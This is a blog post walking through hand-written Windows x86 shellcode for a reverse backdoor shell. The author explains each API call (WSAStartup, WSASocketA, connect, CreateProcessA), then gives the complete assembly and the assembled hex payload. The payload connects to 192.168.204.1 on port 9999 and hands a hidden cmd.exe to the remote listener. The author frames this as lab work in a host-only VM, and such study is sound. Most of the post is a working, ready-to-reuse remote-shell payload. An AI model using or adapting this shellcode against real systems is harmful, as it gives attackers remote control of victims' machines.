

BloG
Windows x86 Shellcode : Reverse Backdoor Shell
January 7, 2019
In the last two blog posts on Windows x86 shellcode, I wrote about loading and using external libraries in shellcode. I then gave an example of loading user32.dll and using MessageBoxA to print a "Hello World!" message.
Now, we're going to try and do something a little more interesting with our shellcode and external libraries; we're going to spawn a reverse backdoor shell.
Little disclaimer here that you shouldn't use or modify my code for anything illegal.
To do this, we need a few functions in WS2_32.DLL: WSAStartup, WSASocketA, and connect should do the trick. We also need CreateProcessA in kernel32.dll. The general strategy will be as follows:
Create a standard TCP socket
Connect socket to IP address 192.168.204.1 and port 9999
CreateProcess "cmd" with the socket as stdin, stdout, and stderr
exitGiven that we've already figured out how to load and use DLL's, writing this in x86 boils down to understanding how the parameters are passed to the API calls. I started by writing the equivalent backdoor in C, compiling, and disassembling it to better understand how to use the API's in assembly.
WSAStartup:
We must call WSAStartup before using any of the other networking functions we want to use in this shellcode. WSAStartup takes VersionRequired and WSAData as parameters. In my disassembled backdoor, the program pushes 202 for VersionRequired; I believe this corresponds to v2.2. WSAData is a pointer to a buffer that recieves information about the socket implementation; however, we don't need it for our purposes, so I'll pass a pointer to a location on the stack that we aren't using. This is the assembly I use to call WSAStartup:
WSAStartup_call:
lea ecx, [esp+0C] #unused location on stack
push ecx
push 202 #socket version
call WSAStartupWSASocketA:
We call WSASocketA to create a new TCP socket so that our backdoor can communicate over the network. There aren't any structures to understand here, we just need to make sure that we know the magic numbers that correspond to AF_INET, SOCK_STREAM, and IPPROTO_TCP. We are creating a socket without ProtocolInfo, Group, or Flags, so these fields are NULL. This is the assembly for creating a standard TCP socket with WSASocketA:
WSASocketA_call:
xor ebx, ebx
push ebx
push ebx
push ebx
push 6 #IPPROTO_TCP
push 1 #SOCK_STREAM
push 2 #AF_INET
call WSASocketA #handle to socket in eaxWS2_32 connect:
We call connect to connect to a listening socket on the network. Connect takes three parameters: a handle to a socket, a pointer to a sockaddr struct, and the length of the sockaddr struct. The sockaddr struct is 0x10 bytes: the first two bytes hold the socket family (AF_INET), the next two bytes hold the port number, the next four bytes hold the IP address, and the last 8 bytes don't do anything. It's important to remember big endian and little endian here - Intel processors are little endian and network byte order is big endian. 2 is the constant for AF_INET, and it is stored in the first 4 bytes in little endian, so it's 0200. We want to connect to port 9999, which is 0x270F, and it is stored in the next 4 bytes in big endian, so it's 270F. Finally, we want to store the IP address 192.168.204.1 in the next 4 bytes in big endian which is C0A8CC01. Here is the assembly:
connect_call:
call .target
db 0200270FC0A8CC01
.target:
pop ebp
push 10
push ebp
push socket
call connectBecause Windows doesn't read or write to the last 8 bytes of buffer, we don't need to include it in our shellcode.
Why this IP?:
I'm running this shellcode in a Windows virtual machine running on VMWare with host-only networking. The VM is not connected to the internet, but can connect to the host machine using this IP. For the command and control server, I will run netcat on the host machine, listening on port 9999.
CreateProcessA:
We use CreateProcessA to start a Windows command line. When creating the process, we want to make sure that the process's stdin, stdout, and stderr are all routed to the socket. Furthermore, we want to make sure that nothing is displayed on the desktop when the shell is launched.
There are a lot of parameters one can pass to CreateProcessA and we will leave most of them null. The important ones to us are as follows: CommandLine is a string that gets run on the command line; we pass "cmd" to CommandLine. InheritHandles is set to 1 so that the command line inherets the socket. StartupInfo takes a pointer to a STARTUPINFOA struct. The first 4 bytes of STARTUPINFOA are the size of the struct (0x44 bytes). We set Flags to STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES (101). And we set stdin, stdout, and stderr to the socket. Finally, ProcessInformation points to a PROCESS_INFORMATION struct, which is 32 bytes. For our purposes, this structure should be zeroed out, and to save instructions, I push a pointer to a region of zeros within the STARTUPINFOA struct. Here is the assembly:
CreateProcessA_call:
call .target
db'cmd'0
.target:
pop ebp
xor eax
push ebx #assume ebx has handle to socket
push ebx #stdin, stdout, stderr for Process
push ebx
push eax
push eax
push 101 #STARTUPINFO flags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES
mov ecx, 10
.loop: #push 40 bytes of 0's
jecxz .done
dec ecx
push eax
jmp .loop
.done:
push 44 #sizeof STARTUPINFO
mov ebx, esp #pointer to STARTUPINFO struct
lea edx, [esp+4] #pointer to PROCESSINFORMATION (zeros)
push edx
push ebx
push eax
push eax
push eax
push 1 #inheret handles from parent
push eax
push eax
push ebp #string 'cmd'
push eax
call CreateProcessAEverything Together:
We now have everything we need to write our shellcode! Here is the full assembly:
reverse_shell();
call find_functions
db'WS2_32'0
db 0200270FC0A8CC01
db 'cmd'0
find_functions:
pop ebp
call find_kernel32_base
mov ebx, eax
push 16B3FE72 #ror-13-additive hash for CreateProcessA
push ebx
call find_function_by_hash
push eax #push address of CreateProcessA to stack
push EC0E4E8E #hash for LoadLibraryA
push ebx
call find_function_by_hash
push ebp #"WS2_32"
call eax
mov ebx, eax
push 60AAF9EC #hash for connect
push ebx
call find_function_by_hash
push eax
push ADF509D9 #hash for WSASocketA
push ebx
call find_function_by_hash
push eax
push 3BFCEDCB #hash for WSAStartup
push ebx
call find_function_by_hash
WSAStartup_call:
lea ecx, [esp+0C] #unused location on stack
push ecx
push 202 #socket version
call eax
WSASocketA_call:
xor edi, edi
mov ecx, [esp]
push edi
push edi
push edi
push 6 #IPPROTO_TCP
push 1 #SOCK_STREAM
push 2 #AF_INET
call ecx
mov ebx, eax #socket in ebx
connect_call:
mov eax, [esp+4]
push 10
lea edx, [ebp+7] #pointer to sockaddr struct
push edx
push ebx
call eax
CreateProcessA_call:
mov eax, [esp+8]
push ebx
push ebx #stdin, stdout, stderr for Process
push ebx
push edi
push edi
push 101 #STARTUPINFO flags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES
mov ecx, 0xA
.loop: #push 40 bytes of 0's
jecxz .break
dec ecx
push edi
jmp .loop
.break:
push 44 #sizeof STARTUPINFO
mov ecx, esp #pointer to STARTUPINFO struct
lea edx, [esp+4] #pointer to PROCESSINFORMATION (zeros)
push edx
push ecx
push edi
push edi
push edi
push 1 #inheret handles from parent
push edi
push edi
lea edx, [ebp+0F]
push edx #string 'cmd'
push edi
call eax
int3There you have it! This assembles to the following shellcode payload:
E8 13 00 00 00 57 53 32 5F 33 32 00 02 00 27 0F
C0 A8 CC 01 63 6D 64 00 5D E8 E9 00 00 00 89 C3
68 72 FE B3 16 53 E8 91 00 00 00 50 68 8E 4E 0E
EC 53 E8 85 00 00 00 55 FF D0 89 C3 68 EC F9 AA
60 53 E8 75 00 00 00 50 68 D9 09 F5 AD 53 E8 69
00 00 00 50 68 CB ED FC 3B 53 E8 5D 00 00 00 8D
4C E4 0C 51 68 02 02 00 00 FF D0 31 FF 8B 0C E4
57 57 57 6A 06 6A 01 6A 02 FF D1 89 C3 8B 44 E4
04 6A 10 8D 55 07 52 53 FF D0 8B 44 E4 08 53 53
53 57 57 68 01 01 00 00 B9 0A 00 00 00 E3 04 49
57 EB FA 6A 44 89 E1 8D 54 E4 04 52 51 57 57 57
6A 01 57 57 8D 55 0F 52 57 FF D0 CC 60 8B 6C E4
24 8B 45 3C 8B 54 28 78 01 EA 8B 4A 18 8B 5A 20
01 EB E3 29 49 8B 34 8B 01 EE 6A 00 56 E8 4D 00
00 00 3B 44 E4 28 75 EA 8B 5A 24 01 EB 66 8B 0C
4B 8B 5A 1C 01 EB 8B 04 8B 01 E8 EB 02 31 C0 89
44 E4 1C 61 C2 08 00 56 31 C0 64 8B 40 30 8B 40
0C 8B 70 1C 8B 46 18 6A 01 50 E8 10 00 00 00 3D
6F 29 C0 F3 74 04 8B 36 EB EA 8B 46 08 5E C3 56
57 53 8B 74 E4 10 8B 5C E4 14 31 FF FC 31 C0 AC
01 DE 38 E0 74 07 C1 CF 0D 01 C7 EB F0 89 F8 5B
5F 5E C2 08 00We can verify that the payload works correctly by running it in the launcher that we wrote in the last post. Remember to compile as a 32-bit program!